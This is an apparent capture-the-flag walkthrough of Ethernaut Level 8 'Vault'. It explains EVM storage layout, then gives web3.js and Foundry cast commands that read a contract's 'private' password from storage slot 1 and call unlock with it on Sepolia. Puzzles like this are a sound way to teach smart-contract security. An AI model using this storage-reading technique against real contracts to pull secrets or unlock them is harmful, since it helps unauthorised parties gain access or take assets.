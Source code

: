 <div align="center">

<img src="../assets/levels/8-vault.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 8 - Vault</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Storage (Static types)](#storage-static-types)
  - [Reading the storage](#reading-the-storage)
- [Solution](#solution)
  - [In the browser console:](#in-the-browser-console)
  - [With Foundry using `cast`:](#with-foundry-using-cast)
- [Takeaway](#takeaway)
- [References](#references)

## Objectif

<img src="../assets/requirements/8-vault-requirements.webp" width="800px"/>

## The hack

It requires an understanding of how storage works in solidity (usage of 32 bytes sized slots) and the JSON RPC function `eth_getStorageAt`.

### Storage (Static types)

EVM stores data in 32 bytes slots. The first state variable is stored at slot 0. If there are enough bytes left, the next variable is also stored at slot 0, otherwise at slot 1, and so on.

> NOTE: Dynamic types like arrays and strings are differents and don't work the same way. But this is for another level...

In the Vault contract, `locked` is a boolean and uses 1 bytes. The slot 0 has 31 bytes of unused storage. `password` is a bytes32 and uses 32 bytes. Since it doesn't fit in the 31 bytes left in slot 0, it is stored at slot 1.

### Reading the storage

The `eth_getStorageAt` JSON RPC function can be used to read the contract's storage at a given slot.

For instance, to read the contract's storage at slot 1 using web3.js, you can use the following function:

```javascript
web3.eth.getStorageAt(contractAddress, 1, (err, result) => {
  console.log(result);
});
```

In Foundry, you can make use of `cast` to achieve the same result:

```bash
cast storage <contractAddress> 1 --rpc-url sepolia
```

## Solution

Since we know that the password is stored at slot 1, we can read the storage at that slot to find the password and then call the `unlock` function with the password to complete the level.

### In the browser console:

```javascript
// 1. Read the storage of the contract at slot[1] to find the password:
await web3.eth.getStorageAt(instance, 1);

// 2. Call the unlock function with the password to complete the level:
await contract.unlock("[result from step 2]");
```

### With Foundry using `cast`:

```bash
cast storage <contractAddress> 1 --rpc-url sepolia
```

Then pass the result to the `unlock` function:

```bash
cast send 0x5E0bc315bDe04a2E24E00335976dC823E6214213 "unlock(bytes32)" "0x412076657279207374726f6e67207365637265742070617373776f7264203a29" --private-key $PRIVATE_KEY --rpc-url sepolia
```

## Takeaway

- The `private` keyword means that the data can only be accessed by the contract itself, not that it is hidden from the world.
- Nothing is private on the blockchain. Everything is public and can be read by anyone.

## References

eth_getStorageAt: https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
